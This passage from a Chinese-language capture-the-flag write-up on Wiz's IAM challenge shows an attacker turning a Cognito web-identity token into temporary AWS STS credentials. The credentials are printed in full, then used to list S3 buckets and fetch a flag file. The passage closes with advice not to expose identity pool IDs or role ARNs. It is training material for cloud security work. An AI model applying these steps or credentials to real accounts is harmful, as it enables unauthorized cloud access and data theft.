 最后利用上述信息，就可以调用 assume-role-with-web-identity 生成一个 STS 了。

```bash
> aws sts assume-role-with-web-identity --role-arn arn:aws:iam::092297851374:role/Cognito_s3accessAuth_Role --role-session-name teamssix --web-identity-token eyJraWQiOiJ1cy1lYXN0LTEzIiwidHlwIjoi...

{
    "Credentials": {
        "AccessKeyId": "ASIARK7LBOHXDFQ6KRE3",
        "SecretAccessKey": "Wqk43MfgwPM5F7Z9IfFgv24RwHuCVDh8M0swTUyj",
        "SessionToken": "IQoJb3JpZ2luX2VjEND...",
        "Expiration": "2023-07-06T16:36:18+00:00"
    },
    "SubjectFromWebIdentityToken": "us-east-1:453cea83-a2c0-4b64-a7ff-9dc3783701db",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROARK7LBOHXASFTNOIZG:teamssix",
        "Arn": "arn:aws:sts::092297851374:assumed-role/Cognito_s3accessAuth_Role/teamssix"
    },
    "Provider": "cognito-identity.amazonaws.com",
    "Audience": "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"
}
```

最后使用环境变量配置这个 STS。

```bash
> export AWS_ACCESS_KEY_ID=ASIARK7LBOHXDFQ6KRE3
> export AWS_SECRET_ACCESS_KEY=Wqk43MfgwPM5F7Z9IfFgv24RwHuCVDh8M0swTUyj
> export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjEND...
```

然后列下当前存储桶，其实这些存储桶就是上面所有题里用到的存储桶。

```bash
> aws s3 ls

2023-06-05 01:07:29 tbic-wiz-analytics-bucket-b44867f
2023-06-05 21:07:44 thebigiamchallenge-admin-storage-abf1321
2023-06-05 00:31:02 thebigiamchallenge-storage-9979f4b
2023-06-05 21:28:31 wiz-privatefiles
2023-06-05 21:28:31 wiz-privatefiles-x1000
```

最后，在 wiz-privatefiles-x1000 存储桶下找到 FLAG 文件。

```bash
aws s3api get-object --bucket wiz-privatefiles-x1000 --key flag2.txt flag2.txt
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202307091317494.png)

结束，拿到最后一个 FLAG。

到这里，其实可以得到一个结论，就是在拿到身份池 ID 以及所对应的角色 ARN 时，通过这两条信息，可以获取到对应角色的权限，因此平时应该注意，不要将这些信息泄露。

最后，通过上面这 6 道题，个人觉着还是能学习到不少东西的，在整个过程中需要查阅大量的官方文档，ChatGPT 也是个很好的辅助工具，另外这里也参考了一些其他人的 WP，我所参考的资料都放在参考链接了，在你去做这个 IAM 挑战赛的时候，以上内容或许可以帮助到你。
